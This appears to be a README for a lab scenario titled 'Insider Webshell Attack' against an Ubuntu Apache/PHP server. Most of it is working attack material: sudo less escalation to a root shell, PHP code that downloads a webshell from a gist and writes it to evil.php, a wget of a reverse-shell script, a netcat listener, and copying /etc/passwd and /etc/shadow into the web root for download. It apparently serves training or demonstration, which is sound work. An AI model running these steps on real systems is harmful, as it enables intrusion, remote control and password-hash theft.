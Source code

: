 Insider Webshell Attack
=======================

The Attack
------------------
>1. Login with magnifier on ubuntu-web-pr
>2. Check Sudo Permissions - sudo -l
>3. Create file - touch lesser.txt
>4. Use less - sudo less lesser.txt
>5. Less Exploit - !/bin/sh
>6. Modify getevil.php with Malicious Code
>7. Web Browser to http://ubuntu-web-pr/getevil.php
>8. Web Browser to http://ubuntu-web-pr/evil.php
>9. From evil.php on ubuntu-web-pr Get Reverse Shell - See Reverse Shell Wget
>10. On Remote Attack Console Box Open NetCat Listeners 
>	- Terminal #1 - nc -nvlp 443
>11. Web Browser Tab #1 to http://ubuntu-web-pr/reverse-shell.php?ip=consoleIP&port=443
>12. On ubuntu-web-pr - whoami
>13. On ubuntu-web-pr - sudo -i
>14. On ubuntu-web-pr - whoami
>15. On ubuntu-web-pr - cp /etc/passwd /var/www/html
>16. On ubuntu-web-pr - cp /etc/shadow /var/www/html
>17. On ubuntu-web-pr - chown apache:apache /var/www/html/shadow
>18. On ubuntu-web-pr - chown apache:apache /var/www/html/passwd
>19. Web Browser to http://ubuntu-web-pr/passwd
>20. Web Browser to http://ubuntu-web-pr/shadow
>21. On ubuntu-web-pr - rm /var/www/html/passwd
>22. On ubuntu-web-pr - rm /var/www/html/shadow


Environment
-----------
**Two Web Servers:** Ubuntu 20.04.1
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
>Default Packages Needed: 
>	- cron
>	- rsync
>	- sudo
>	- less
>	Install Apache with PHP on Both Servers:
>	- sudo apt install php libapache2-mod-php
  
**Attacker Remote Console**
>VSphere:
>	CPU: 1 
>	Memory: 4 GB
>	Disk: 20 GB
>AWS:
>  t2.micro
  
**Attacker Remote**
>Any machine with a webbrowser
  
Code
----
**Good getevil.php**
```<html>
<head>
<title>I'm a Good Web Page</title>
</head>
<body>
I'm a Good Web Page
</body>
</html>
```  
  
** Malicious getevil.php*
```
<html> 
<head> 
<title>I'm a Bad Web Page</title> 
</head> 
<body> 
I'm a Bad Web Page 

<?php // Normal code  echo "Whatsupppp";   
// start of evil code 
$code = file_get_contents("https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/9377612eeea89aed2b226a870e76ac12965d6694/easy-simple-php-webshell.php"); 
$myfile = fopen("evil.php", "w+") or die("Unable to open file!");   
fwrite($myfile, $code);  
fclose($myfile);  
// end of evil code  ?>
</body> 
</html>  
```  

**Download Reverse Shell**
```
wget https://gist.githubusercontent.com/scottbrumley/cd76c1e61e168a5a4e8c7251fa8e8c82/raw/224af483fd976654c29f1eed9242a233437a6dad/reverse-shell.php
```  
  
